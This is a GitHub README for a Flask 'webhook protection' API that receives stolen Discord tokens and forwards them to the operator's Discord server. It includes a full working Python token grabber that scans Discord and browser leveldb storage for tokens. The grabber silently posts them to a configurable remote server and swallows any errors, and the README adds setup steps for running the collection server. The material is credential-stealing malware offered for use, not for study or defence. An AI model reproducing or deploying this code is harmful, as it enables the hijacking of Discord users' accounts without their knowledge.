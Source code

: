 # Discord Token Grabber API

 A Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1'  # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# set paths to where tokens are stored
localappdata = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
paths = {
    'Discord': os.path.join(roaming, 'Discord'),
    'Discord Canary': os.path.join(roaming, 'DiscordCanary'),
    'Discord PTB': os.path.join(roaming, 'DiscordPTB'),
    'Google Chrome': os.path.join(localappdata, 'Google', 'Chrome', 'User Data', 'Default'),
    'Opera': os.path.join(roaming, 'Opera Software', 'Opera Stable'),
    'Brave': os.path.join(localappdata, 'BraveSoftware', 'Brave-Browser', 'User Data', 'Default'),
    'Yandex': os.path.join(localappdata, 'Yandex', 'YandexBrowser', 'User Data', 'Default')
}

# grab tokens
tokens = []

for platform, path in paths.items():
    path = os.path.join(path, 'Local Storage', 'leveldb')

    if os.path.exists(path) is False:
        continue

    for item in os.listdir(path):
        if not item[-4:] in ('.log', '.ldb'):
            continue

        with open(os.path.join(path, item), errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if len(line) == 0:
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

# send tokens to the webhook protection API that will validate them and send them to your Discord server over webhook
try:
    data = {'secret': SECRET, 'tokens': tokens}

    # note that using json=data, requests module automatically sets the Content-Type header to application/json
    requests.post(f'http://{API_IP}:{API_PORT}/grab', json=data)
except:
    pass
```

Don't judge the token grabber. I made it simple to understand, not efficient : P

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py` (It's recommened to set up a proper production WSGI server)

## TODO

* [ ] Set up a MySQL database to store tokens, used to prevent dupes
* [ ] IP-address based rate limit to prevent abusers from flooding the API
* [x] Support multiple tokens in a single request using `,` seperator
* [x] JSON based POST request support
